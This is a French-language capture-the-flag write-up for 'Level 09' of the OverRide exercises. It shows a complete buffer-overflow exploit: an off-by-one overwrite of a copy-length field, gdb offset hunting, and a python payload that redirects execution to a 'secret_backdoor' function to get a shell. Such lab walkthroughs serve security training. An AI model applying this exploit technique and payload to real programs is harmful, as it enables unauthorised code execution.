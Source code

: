 # Level 09

```
    (python -c 'print "A" * 40 +"\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
```

## Soluce

En analysant le code source decompiler (avec Hex-Ray / Ida), on peu voir plusieur point interressant :

-   Dans la fonction **set_username**, la boucle copie l'input du user 40 octet apres la fin  buffer (140 -> 180 apres le debut du buffer), cependant la condition d'arret permet de copié 1 octt supplementaire donc le 181 eme caractere apres le buffer
-   Dans la fonction **set_msg**, les 180 premier octet de msg sont copier dans le buffer, en utilisant comme taille ce qui est stocker a buffer + 180 comme un int

On peu en conclure plusieurs chose :

-   Cela peu correspondre a une structure car toute les donnée sont aligner dans la memoire, ce qui est generalement le cas avec une stucture
-   On peu du coup overwrite les dernier octet de la variable qui est utilisé pour la taille du **strncpy** dans **set_msg**, ce qui va pottentiellement faire un **buffer Overflow**, on va nommer cette variable **len_cpy**

On va tester de overwrite avec du coup la valeur maximal que peu stocker un octet **ff** :

```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"') | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

Observons avec gdb ce qui est overwrite :

```
(gdb) run < <(python -c 'print "A" * 40 + "\xff"')
Starting program: /home/users/level09/level09 < <(python -c 'print "A" * 40 + "\xff"')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
(gdb) info r
rax            0xd      13
rbx            0x0      0
rcx            0x7ffff7b01f90   140737348902800
rdx            0x7ffff7dd5a90   140737351867024
rsi            0x7ffff7ff7000   140737354100736
rdi            0xffffffff       4294967295
rbp            0x0      0x0
rsp            0x7fffffffddc0   0x7fffffffddc0
r8             0x7ffff7ff7004   140737354100740
r9             0xc      12
r10            0xe      14
r11            0x246    582
r12            0x555555554790   93824992233360
r13            0x7fffffffdea0   140737488346784
r14            0x0      0
r15            0x0      0
rip            0x0      0
eflags         0x10246  [ PF ZF IF RF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0
```

Recuperont l'offset pour voir a partir de ou cela overwrite, et dans quelle registre :

```
    (gdb) run < <(python -c 'print "A" * 40 +"\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"')
    Starting program: /home/users/level09/level09 < <(python -c 'print "A" * 40 +"\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"')
    warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
    >>: >: Msg sent!

    Program received signal SIGSEGV, Segmentation fault.
    0x0000555555554931 in handle_msg ()
    (gdb) info r
    rax            0xd      13
    rbx            0x0      0
    rcx            0x7ffff7b01f90   140737348902800
    rdx            0x7ffff7dd5a90   140737351867024
    rsi            0x7ffff7ff7000   140737354100736
    rdi            0xffffffff       4294967295
    rbp            0x6741356741346741       0x6741356741346741
    rsp            0x7fffffffddb8   0x7fffffffddb8
    r8             0x7ffff7ff7004   140737354100740
    r9             0xc      12
    r10            0x7fffffffd660   140737488344672
    r11            0x246    582
    r12            0x555555554790   93824992233360
    r13            0x7fffffffdea0   140737488346784
    r14            0x0      0
    r15            0x0      0
    rip            0x555555554931   0x555555554931 <handle_msg+113>
    eflags         0x10246  [ PF ZF IF RF ]
    cs             0x33     51
    ss             0x2b     43
    ds             0x0      0
    es             0x0      0
    fs             0x0      0
    gs             0x0      0
```

On voit que **rip** n'as pas ete overwrite, cependant on peu noter un quelque chose interessant on a overwrite **rbp** a l'offset 192, ce qui peu nous permettre du coup d'overwritte quasiment n'importe quoi dans la stack, dont l'adresse de retour normalement elle se situe a **rbp** + 8, verifions :

```
    (gdb) b set_msg
    Breakpoint 1 at 0x555555554936
    (gdb) run
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y

    Starting program: /home/users/level09/level09 < <(python -c 'print "A" * 40 +"\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"')
    warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username

    Breakpoint 1, 0x0000555555554936 in set_msg ()
    (gdb) info f
    Stack level 0, frame at 0x7fffffffdcf0:
    rip = 0x555555554936 in set_msg; saved rip 0x555555554924
    called by frame at 0x7fffffffddc0
    Arglist at 0x7fffffffdce0, args: 
    Locals at 0x7fffffffdce0, Previous frame's sp is 0x7fffffffdcf0
    Saved registers:
    rbp at 0x7fffffffdce0, rip at 0x7fffffffdce8
    (gdb) x/x $ebp + 8
    0xffffffffffffdce8:     Cannot access memory at address 0xffffffffffffdce8
```

Parfait cela colle bien, maintenant plus que a recuperer l'adresse de **secret_backdoor** :

```
(gdb) p &secret_backdoor 
$1 = (<text variable, no debug info> *) 0x55555555488c <secret_backdoor>
```

### Payload

**[Padding : 40]** + **[overwrite len_msg]** + **[retour a la ligne]** + **[Padding adresse de retour]** + **[Code Arbitraire]**

```
level09@OverRide:~$ (python -c 'print "A" * 40 +"\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
lol
sh: 1: lol: not found
^C
Segmentation fault (core dumped)
level09@OverRide:~$ (python -c 'print "A" * 40 +"\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
```
